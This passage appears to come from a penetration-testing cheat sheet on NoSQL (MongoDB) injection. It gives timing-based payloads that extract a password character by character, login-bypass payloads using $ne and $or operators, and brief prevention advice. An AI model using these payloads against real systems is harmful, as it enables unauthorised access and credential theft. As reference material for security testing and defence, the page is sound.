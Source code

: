 {% endcode %}

## Timing based injection

{% code overflow="wrap" fullWidth="true" %}
```sh
   1. Load the page several times to determine a baseline loading time.
   2. Insert a timing based payload into the input to cause an intentional delay in the response when executed.
For example, {"$where": "sleep(5000)"} causes an intentional delay of 5000 ms on successful injection.
   4. Identify whether the response loads more slowly. This indicates a successful injection.
#  The following timing based payloads will trigger a time delay if the password beings with the letter a: 
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
{% endcode %}

## Preventing NoSQL injection

* Sanitize and validate user input, using an allowlist of accepted characters.
* Insert user input using parameterized queries instead of concatenating user input directly into the query.
* To prevent operator injection, apply an allowlist of accepted keys.

## Other Payloads

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh"><strong>username[$ne]=1&#x26;password[$ne]=1
</strong>
admin' || 'a'=='a

# Malicious input
username=tolkien’, $or: [ {}, { ‘a’:’a&#x26;password=’ } ], $comment:’successful MongoDB injection’
# This input will be constructed into the following query:
{ username: ‘tolkien’, $or: [ {}, { ‘a’: ‘a’, password: ‘’ } ], $comment: ‘successful MongoDB injection’ }

# VERY IMPORTANT: If request is simple form, change content-type to application/json and try {"username":"admin", "password":"password"} structure 
# Now start removing some characters like last } or last " to see if we trigger any error
</code></pre>
